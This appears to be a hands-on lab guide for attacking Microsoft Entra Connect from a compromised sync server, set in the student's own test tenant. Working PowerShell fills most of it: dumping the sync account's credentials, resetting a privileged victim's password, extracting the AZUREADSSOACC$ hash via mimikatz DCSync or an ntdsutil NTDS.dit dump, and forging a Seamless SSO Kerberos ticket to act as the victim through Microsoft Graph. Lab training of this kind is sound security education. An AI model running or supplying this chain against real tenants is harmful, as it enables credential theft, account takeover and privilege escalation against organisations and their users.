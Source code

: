 # lab 2 - Entra Connect Attacks
### Prepare a victim user with high privileges: 
in Entra portal (login with your admin tenant creds), select ***user10*** and assign it with the **Application Administrator** role


#
# Attacks
From this point on you act as the adversary, without knowing the Entra / AD Creds, you have code execution as Administrator on the Entra Connect server (in our case- it's the DC VM)

## 1. Extract Entra Connect Credentials and target a victim user

#### 1. Dumping and Extracting Entra (Azure AD) Connect credentials:
1. run powershell as admin on the server where Entra Connect is installed
2. execute:
    ```powershell
    Import-Module AADInternals
    Get-AADIntSyncCredentials
    ```


#### 2. Finding a target (victim) user to attack

```powershell
# list on-premise, synced users with their roles
$onpremSyncedUsers = Get-AzureADUser -All $true | Where-Object { 
    $_.OnPremisesSecurityIdentifier -ne $null 
} 
$onpremSyncedUsers | ForEach-Object { 
    $user = $_; 
    Get-AzureADDirectoryRole | ForEach-Object { 
        $role = $_;
        Get-AzureADDirectoryRoleMember -ObjectId $role.ObjectId | Where-Object { $_.ObjectId -eq $user.ObjectId } | Select-Object @{Name='UserPrincipalName';Expression={$user.UserPrincipalName}}, @{Name='OnPremisesSecurityIdentifier';Expression={$user.OnPremisesSecurityIdentifier}}, @{Name='ImmutableId';Expression={$user.ImmutableId}}, @{Name='Role';Expression={$role.DisplayName}} 
    } 
} | Format-Table -Wrap -AutoSize
```

## 2. Reset Password Attack
#### Reset the user's Entra password:
```powershell
# Prompt for credentials and retrieve & store access token to cache
# Enter your dumped Sync_XX account creds!
Get-AADIntAccessTokenForAADGraph -SaveToCache

Set-AADIntUserPassword -SourceAnchor "IMMUTABLE_ID" -Password "MYPASS" -Verbose
```

Now, open browser in incognito and login as that user with the new password :) 


#
## 3. Silver Ticket (Seamless SSO) Attack
#### 1. Detect if SSO is enabled:
```powershell
$body = @{
    "username" = "victim@mydomain.onmicrosoft.com"
} | ConvertTo-Json

$response = Invoke-RestMethod -Uri "https://login.microsoftonline.com/common/GetCredentialType" -Method Post -Body $body -ContentType "application/json"
$response
```

Set the domain:
```powershell
$domain = "MYDOMAIN" # change to your domain name WITHOUT the ".onmicrosoft.com" part 
```

#### 2. Get AZUREADSSOACC computer account's hash:
```powershell
# Option 1: Get-ADReplAccount
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain $domain -Server dcvm # take the "NTHash" part

# Option 2: mimikatz
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$"
    
# Option 3: Dump NTDS.dit and registry:
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
# Now the AD and registry are dumped to C:\temp and we can extract the password hash using DSInternals.

# use DSInternals
Import-Module DSInternals

# Get the Boot key
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'

# Get the password's hash of AZUREADSSOACC
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hex
# remote the empy spaces and keep the hash
```

Set the hash:
```powershell
$hash = "CHANGEME"
```
#### 3. Find victim user to impersonate
1. option 1:
    ```powershell
    # Option 1: query Entra + get roles
    Import-Module AzureAD
    Connect-AzureAD # use the dumped Entra Connect creds (Sync_XXX account)


    # Option 2: query AD (w/o getting Entra roles)
    Get-ADReplAccount -SamAccountName 'victim' -Domain $domain -Server dcvm
    ```

Set the victim user's SID:
```powershell
$victimUserSid = "S-1-5-21-CHANGEME" # set the sid of the user you wish to impersonate
```

#### 4. Perform the attack
```powershell
$fullyQualifiedDomain = "$domain.onmicrosoft.com" # change to your domain name

# generate kerberos ticket
$kerberos=New-AADIntKerberosTicket -SidString $victimUserSid -Hash $hash

# get an access token for that user
$at =Get-AADIntAccessTokenForAADGraph -KerberosTicket $kerberos -Domain $fullyQualifiedDomain

# start exploring using MS Graph API!
$MaximumFunctionCount = 8192 # bypass powershell's scope memory limit
Import-Module Microsoft.Graph.Users
$securedAT = ConvertTo-SecureString $at -AsPlainText -Force
Connect-MgGraph -AccessToken $securedAT

Get-MgUser
#Readme: https://aka.ms/graph/sdk/powershell
#SDK Docs: https://aka.ms/graph/sdk/powershell/docs
#API Docs: https://aka.ms/graph/docs
```
What can you do now that you are an Application Administrator?